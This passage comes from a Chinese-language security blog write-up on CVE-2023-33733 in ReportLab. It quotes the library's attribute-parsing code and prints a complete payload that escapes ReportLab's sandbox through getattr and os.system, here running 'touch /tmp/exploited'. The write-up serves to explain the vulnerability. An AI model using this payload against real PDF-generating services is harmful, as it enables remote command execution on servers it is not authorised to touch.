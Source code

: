 很快便在 invalid attribute name
https://github.com/search?q=repo%3ASudistark%2Freportlab-
diff+%22invalid+attribute+name%22&type=code 中找到了匹配信息。

    
    
        def getAttributes(self,attr,attrMap):
    
            A = {}
    
            for k, v in attr.items():
    
                if not self.caseSensitive:
    
                    k = k.lower()
    
                if k in attrMap:
    
                    j = attrMap[k]
    
                    func = j[1]
    
                    if func is not None:
    
                        #it's a function
    
                        v = func(self,v) if isinstance(func,_ExValidate) else func(v)
    
                    A[j[0]] = v
    
                else:
    
                    self._syntax_error('invalid attribute name %s attrMap=%r'% (k,list(sorted(attrMap.keys()))))
    
    generic
    
    558 Bytes
    
    © Guge's Blog

这与网站中显示的错误消息完全匹配。

研究人员 Elyas 分享了Payload
如何工作的完整详细信息，如有兴趣，可移步：https://github.com/c53elyas/CVE-2023-33733

    
    
    <para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
    
                    exploit
    
    </font></para>
    
    generic
    
    505 Bytes
    
    © Guge's Blog

在阅读Elyas的文章后，白帽子开始尝试理解这个payload，虽然阅读起来有难度，但通过 python 控制台来逐行执行它，对于后来的理解很有帮助。
